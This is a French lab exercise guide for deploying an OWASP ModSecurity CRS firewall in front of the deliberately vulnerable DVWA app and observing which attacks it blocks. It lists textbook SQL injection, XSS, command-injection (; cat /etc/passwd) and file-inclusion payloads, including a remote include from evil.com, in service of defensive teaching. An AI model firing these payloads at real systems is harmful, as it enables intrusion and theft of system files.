

# TP Cybersécurité : Web Application Firewall avec OWASP ModSecurity CRS

## Objectifs du TP

Ce TP a pour objectif de vous faire découvrir et expérimenter les mécanismes de protection d'un **Web Application Firewall (WAF)**. Vous allez :

1. **Comprendre** le rôle d'un WAF dans la protection des applications web
2. **Configurer** et déployer OWASP ModSecurity CRS avec Docker
3. **Analyser** et interpréter les logs de sécurité
4. **Tester** différents types d'attaques (SQL Injection, XSS, Command Injection)
5. **Ajuster** les règles de sécurité selon les besoins

---

## Architecture du Lab



### Composants

| Composant | Rôle | Port |
|-----------|------|------|
| **ModSecurity CRS** | WAF - Filtre les requêtes malveillantes | 80 |
| **DVWA** | Application web vulnérable | Internal |
| **MySQL** | Base de données | Internal |

---

## Prérequis

- Docker et Docker Compose installés
- Burp Suite Community Edition ou OWASP ZAP
- Navigateur web
- cURL ou Postman (optionnel)

---

## Lancement du Lab

### 1. Version simple (recommandée pour débuter)

```bash
# Lancer la stack simple
docker-compose -f docker-compose.simple.yml up -d

# Vérifier que tout est démarré
docker-compose -f docker-compose.simple.yml ps
```

### 2. Version avancée (avec logs détaillés)

```bash
# Lancer la stack complète avec logs
docker-compose up -d

# Voir les logs en temps réel
docker-compose logs -f modsecurity-crs
```

---

## Configuration initiale de DVWA

1. Accédez à l'application : `http://localhost`
2. Cliquez sur **Create / Reset Database**
3. Connectez-vous avec :
   - **Username** : `admin`
   - **Password** : `password`
4. Allez dans **DVWA Security** et réglez le niveau sur **Low**

---

## Partie 1 : Découverte du WAF

### Exercice 1.1 : Test de connectivité

Vérifiez que le WAF fonctionne correctement :

```bash
# Test basique
curl -I http://localhost

# Test avec un payload simple
curl http://localhost/?test=<script>alert(1)</script>
```

**Questions :**
- Quel code HTTP retourne le WAF lors d'une détection d'attaque ?
- Observez les en-têtes de réponse, que remarquez-vous ?

### Exercice 1.2 : Première attaque - SQL Injection

Dans DVWA, allez dans **SQL Injection** et essayez :`

```sql
' OR '1'='1
```

**Questions :**
- L'attaque fonctionne-t-elle ? Pourquoi ?
- Que se passe-t-il si vous essayez une injection plus complexe ?

---

## Partie 2 : Analyse des Logs

### Exercice 2.1 : Consulter les logs

```bash
# Accéder aux logs du container
docker exec -it modsecurity_waf tail -f /var/log/modsecurity/audit.log
```

**Structure d'un log ModSecurity :**

```json
{
  "transaction": {
    "client_ip": "172.20.0.1",
    "time_stamp": "2024-01-15T10:30:00Z",
    "server_id": "...",
    "client_port": 54321,
    "host_ip": "172.20.0.3",
    "host_port": 80,
    "unique_id": "...",
    "request": {
      "method": "GET",
      "http_version": 1.1,
      "uri": "/?id=1' OR '1'='1",
      "headers": {...}
    },
    "messages": [
      {
        "message": "SQL Injection Attack Detected",
        "details": {
          "ruleid": "942100",
          "severity": "CRITICAL"
        }
      }
    ]
  }
}
```

**Questions :**
- Identifiez les différentes parties du log
- Quel est le `ruleid` qui a déclenché la détection ?
- Quel niveau de sévérité est attribué à cette règle ?

---

## Partie 3 : Tests d'attaques avancées

### Exercice 3.1 : Cross-Site Scripting (XSS)

Testez différents payloads XSS dans la page **XSS Reflected** :

```html
<script>alert('XSS')</script>

```

**Questions :**
- Quelles règles CRS sont déclenchées ?
- Quelle est la différence entre XSS Reflected et XSS Stored ?

### Exercice 3.2 : Command Injection

Dans **Command Injection**, essayez :

```bash
; cat /etc/passwd
| whoami
```

### Exercice 3.3 : File Inclusion

Testez les vulnérabilités LFI/RFI dans **File Inclusion** :

```
?page=../../../etc/passwd
?page=http://evil.com/shell.php
```

---

## Partie 4 : Comprendre les niveaux de paranoïa

Le niveau de **Paranoia Level (PL)** détermine la sensibilité du WAF :

| Niveau | Description | Faux positifs |
|--------|-------------|---------------|
| **PL 1** | Protection de base, recommandé pour la production | Minimes |
| **PL 2** | Protection renforcée | Quelques-uns |
| **PL 3** | Protection stricte | Fréquents |
| **PL 4** | Protection maximale | Nombreux |

### Exercice 4.1 : Modifier le niveau de paranoïa

Modifiez le fichier [`docker-compose.simple.yml`](docker-compose.simple.yml:18) :

```yaml
environment:
  - PARANOIA=2  # Changer à 2, 3 ou 4
```

Redéployez et testez à nouveau :

```bash
docker-compose -f docker-compose.simple.yml down
docker-compose -f docker-compose.simple.yml up -d
```

**Questions :**
- Quelles différences observez-vous entre PL 1 et PL 4 ?
- Combien de règles sont déclenchées à chaque niveau ?

---

## Partie 5 : Faux Positifs et Exclusions

### Exercice 5.1 : Identifier un faux positif

Parfois, des requêtes légitimes sont bloquées. Identifiez un cas où une action normale dans DVWA déclenche une règle.

### Exercice 5.2 : Créer une exclusion

Dans la version avancée, examinez le fichier [`modsecurity/exclusions.conf`](modsecurity/exclusions.conf) :

```apache
# Exemple d'exclusion pour le login DVWA
SecRule REQUEST_FILENAME "@streq /login.php" \
    "id:10000,\
    phase:1,\
    pass,\
    nolog,\
    ctl:ruleRemoveById=942100"
```

**Questions :**
- Quand faut-il créer une exclusion ?
- Quels sont les risques d'une exclusion mal configurée ?

---

## Rendu attendu

Rédigez un rapport comprenant :

1. **Introduction** : Présentation du WAF et de son importance
2. **Architecture** : Schéma et description de la stack
3. **Tests effectués** : Tableau des attaques testées avec résultats
4. **Analyse des logs** : Exemples de logs interprétés
5. **Conclusion** : Bilan sur l'efficacité du WAF

### Exemple de tableau de résultats

| Type d'attaque | Payload | Détecté par WAF ? | Règle déclenchée | Code HTTP |
|----------------|---------|-------------------|------------------|-----------|
| SQLi Simple | `' OR '1'='1` | Oui | 942100 | 403 |
| XSS Basique | `<script>alert(1)</script>` | Oui | 941100 | 403 |
| Command Injection | `; cat /etc/passwd` | Oui | 932100 | 403 |

---

## Ressources

- [Documentation OWASP CRS](https://coreruleset.org/docs/)
- [ModSecurity Handbook](https://www.modsecurity.org/)
- [DVWA Documentation](https://github.com/digininja/DVWA)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)

---

## Nettoyage

```bash
# Arrêter et supprimer les containers
docker-compose down -v

# Ou pour la version simple
docker-compose -f docker-compose.simple.yml down -v
```

---

**Bonne chance et bon hacking éthique !**